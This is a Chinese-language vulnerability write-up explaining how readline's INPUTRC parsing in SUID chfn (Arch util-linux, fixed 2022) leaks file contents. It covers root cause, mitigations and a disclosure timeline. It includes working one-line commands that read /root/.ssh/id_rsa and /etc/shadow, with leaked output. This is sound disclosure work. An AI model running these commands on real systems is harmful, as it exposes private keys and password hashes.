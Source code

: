 ```yaml
---
date: 2025-08-03T09:23:22+08:00
title: "利用SUID逻辑漏洞：Readline信息泄露攻击解析"
tags: [漏洞利用, Linux安全, SUID]
authors: qife
description: "本文详细分析了readline库中的逻辑漏洞，该漏洞会在解析INPUTRC环境变量指定文件时泄露部分文件内容。攻击者可借此在sshd运行环境下横向渗透，获取用户私钥等敏感信息。"
---
```


# 利用SUID逻辑漏洞：Readline信息泄露攻击

我在readline依赖库中发现了一个逻辑漏洞，当解析INPUTRC环境变量指定的文件时，会部分泄露文件信息。在满足以下条件时，攻击者可能利用该漏洞进行横向移动：
- sshd服务正在运行
- 特定用户可登录
- 用户私钥存储在已知路径（如/home/user/.ssh/id_rsa）

该漏洞已于2022年2月报告并修复。由于chfn通常不由util-linux提供，您的系统可能不受影响。我撰写本文的原因是这种利用方式很有趣——它之所以可行，是因为readline配置文件解析函数与SSH密钥格式的巧妙巧合。

## TL;DR漏洞演示
```
$ INPUTRC=/root/.ssh/id_rsa chfn
Changing finger information for user.
Password:
readline: /root/.ssh/id_rsa: line 1: -----BEGIN: unknown key modifier
readline: /root/.ssh/id_rsa: line 2: b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: no key sequence terminator
[...]
readline: /root/.ssh/id_rsa: line 37: avxwhoky6ozXEAAAAJcm9vdEBNQVRFAQI=: no key sequence terminator
readline: /root/.ssh/id_rsa: line 38: -----END: unknown key modifier
Office [b]: ^C
```

## 漏洞发现过程

受到Qualys sudo漏洞启发，我最近对SUID漏洞产生了兴趣。在研究《软件安全评估艺术》时，我开始关注环境变量作为攻击面。通过注入拦截库记录getenv调用：

```c
#define _GNU_SOURCE
#include <dlfcn.h>
#include <syslog.h>

// gcc getenv.c -fPIC -shared -ldl -o getenv.so

char *(*_real_getenv)(const char *) = 0;
char *getenv(const char *name) {
      if(!_real_getenv) _real_getenv = dlsym(RTLD_NEXT, "getenv");
      char *res = _real_getenv(name);
      syslog(1, "getenv(\"%s\") => \"%s\"\n", name, res);
      return res;
}
```

在发现INPUTRC环境变量后，我尝试将其指向/etc/shadow文件：

```
$ INPUTRC=/etc/shadow chfn
Changing finger information for user.
Password:
readline: /etc/shadow: line 9: systemd-journal-remote: unknown key modifier
[...]
Office [b]: ^C
```

## 根本原因分析

通过分析readline-8.1源码，发现INPUTRC通过sh_get_env_value传递给getenv。错误信息"unknown key modifier"来自rl_parse_and_bind函数，该函数尝试将输入文件内容解析为键绑定配置时会产生泄露。

关键漏洞路径有三类：
1. 以引号开头但未闭合的行
2. 以冒号开头且不含空格的行
3. 不含空格/制表符/冒号的行

SSH密钥恰好匹配第三种情况，导致私钥内容被部分泄露。

## 影响范围

该漏洞自2017年2.30-rc1版本引入，但主要影响Arch Linux的util-linux包中的chfn程序。其他主流发行版（Debian/Red Hat/Ubuntu）不受影响。

## 修复建议

util-linux维护者已从chfn移除了readline支持。建议：
- 不要在有SUID权限的程序中使用readline
- 检查使用ncurses的SUID程序与TERMINFO环境变量的交互

## 时间线
- 2017年5月2日：漏洞引入
- 2022年2月8日：向Arch和util-linux上游报告
- 2022年2月14日：上游修复
- 2023年2月16日：公开披露